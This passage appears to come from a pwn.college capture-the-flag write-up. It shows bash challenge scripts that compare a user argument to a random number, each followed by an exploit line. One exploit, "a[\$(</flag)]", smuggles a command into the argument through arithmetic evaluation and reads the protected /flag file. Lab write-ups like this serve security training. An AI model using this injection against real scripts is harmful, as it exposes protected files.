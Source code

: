 ```sh
fi
```

### exploit
```sh
/challenge/run CHALLENGE
```

# The Commanded Condition

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

CHALLENGE=$RANDOM$RANDOM$RANDOM$RANDOM$RANDOM
RESPONSE="$1"

# Alright, go for it.
#set -T
#readonly BASH_SUBSHELL
#trap '[[ $BASH_SUBSHELL -gt 0 ]] && exit' DEBUG

if (( RESPONSE == CHALLENGE ))
then
	echo "Success!"
	#cat /flag
else
	echo "Wrong!"
	#cat /flag | md5sum
fi
```

### exploit
```sh
/challenge/run "a[\$(</flag)]"
```

# The Dreadful Discovery

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

CHALLENGE=$RANDOM$RANDOM$RANDOM$RANDOM$RANDOM
RESPONSE="$1"

# Can you see what HAL50000 saw?
set -T
#readonly BASH_SUBSHELL
trap '[[ $BASH_SUBSHELL -gt 0 ]] && exit' DEBUG

if (( RESPONSE == CHALLENGE ))
then
	echo "Success!"
	#cat /flag
else
	echo "Wrong!"
```
